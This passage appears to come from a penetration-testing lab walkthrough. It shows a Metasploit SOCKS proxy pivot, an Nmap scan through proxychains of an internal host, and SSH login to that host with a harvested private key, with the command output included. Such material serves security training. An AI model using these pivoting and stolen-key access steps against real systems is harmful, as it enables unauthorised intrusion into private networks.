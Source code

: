 ```shell-session

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> set srvport 9050
srvport => 9050
[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> set version 4a
version => 4a
[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> run
[*] Auxiliary module running as background job 0.
[msf](Jobs:1 Agents:2) auxiliary(server/socks_proxy) >> 
[*] Starting the SOCKS proxy server
```

Edit the `/etc/proxychains.conf` file to use port `9050` that we specified above. If you already have a line in there from earlier, comment it out or replace the port number.

Now we can test this out by running Nmap against the target, and we confirm that we are able to scan it.

```shell-session
$ proxychains nmap -sT -p 22 172.16.9.25

ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 21:42 EDT
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.9.25:80-<--denied
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.9.25:22-<><>-OK
Nmap scan report for 172.16.9.25
Host is up (1.1s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 1.50 seconds
```

Finally, we can try each SSH key with proxychains to attempt to connect to the host. We can collect each username by the SSH key filename. In our case the key for `ssmallsadm` works (don't forget to `chmod 600` the file or we won't be able to connect).

```shell-session
$ proxychains ssh -i ssmallsadm-id_rsa ssmallsadm@172.16.9.25

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.9.25:22-<><>-OK
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.10.0-051000-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 23 Jun 2022 01:48:14 AM UTC

  System load:  0.0                Processes:               231
  Usage of /:   27.9% of 13.72GB   Users logged in:         0
  Memory usage: 14%                IPv4 address for ens192: 172.16.9.25
  Swap usage:   0%


159 updates can be applied immediately.
103 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


```
